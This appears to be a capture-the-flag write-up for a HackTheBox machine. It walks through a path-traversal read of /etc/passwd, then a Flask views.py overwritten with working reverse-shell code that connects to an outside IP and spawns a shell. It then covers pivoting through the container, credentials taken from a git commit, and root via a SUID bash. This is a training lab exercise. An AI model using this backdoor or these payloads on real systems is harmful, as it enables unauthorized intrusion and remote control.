 # htb-opensource

# User Access
### LFI

`os.path.join` function has an input of path, if this input equals to an absolute path, the command will throw other inputs and only reads the absolute path.

so getting the following URL gives us `/etc/passwd`

~~~
/uploads/..//etc/passwd
~~~


### Reverse shell

uploaded a `reverseshell.py` into `/app/app/views.py`

~~~
import os
from os import dup2
from subprocess import run

import socket

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))




s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",3984)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/sh","-i"])
~~~

Once inside the container realize that the port `3000` is not filtered. so we need **pivoting** and tunnel through the container to see the app running on `3000`


### Pivoting

used this [repo inside the container](https://github.com/BloodhoundAllfather/dembe)
now the webserver is available on my own lap top.

in `users` we see that a user named `dev01` exists.
tried bruteforcing  it with no luck. 

### User Credentials

Started digging in the source code and found [this](https://github.com/mohsenkamini/htb-opensource/commit/a76f8f75f7a4a12b706b0cf9c983796fa1985820)

using the creds to login inside the gitea and found an `id_rsa` which enables login to `dev01@opensource.htb`


# Root Access

Running `linpeas` show `/bin/bash` has `sbit`/`SUID` enabled. running `/bin/bash -p` provides root access.


